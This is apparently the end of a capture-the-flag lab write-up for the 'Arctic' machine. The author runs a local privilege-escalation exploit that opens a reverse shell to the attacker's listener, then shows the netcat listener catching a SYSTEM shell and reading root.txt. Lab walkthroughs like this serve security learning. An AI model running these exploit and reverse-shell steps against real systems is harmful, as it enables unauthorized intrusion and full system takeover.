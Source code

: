 The file is stored in C:\ColdFusion8\wwwroot\userfiles\file directory. Running the exploit with args IP and Port of the local system, to get a reverse shell with root access.

```cmd


C:\ColdFusion8\wwwroot\userfiles\file>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\ColdFusion8\wwwroot\userfiles\file

18/02/2021  12:32 ��    <DIR>          .
18/02/2021  12:32 ��    <DIR>          ..
18/02/2021  12:31 ��             1.496 exploit.jsp
18/02/2021  12:32 ��           784.384 exploits.exe
               2 File(s)        785.880 bytes
               2 Dir(s)  33.184.165.888 bytes free

C:\ColdFusion8\wwwroot\userfiles\file>exploits.exe 10.10.14.15 53
exploits.exe 10.10.14.15 53

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>

```
And that worked!! 


```bash


┌──(kali㉿kali)-[~]
└─$ sudo nc -nvlp 53                                                                                          1 ⨯
[sudo] password for kali: 
listening on [any] 53 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.11] 49201
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\wwwroot\userfiles\file>whoami
whoami
nt authority\system

C:\ColdFusion8\wwwroot\userfiles\file>cd C:\
cd C:\

C:\>cd Users\Administrator\Desktop
cd Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt

```

Solved Arctic. Onto the next one :)
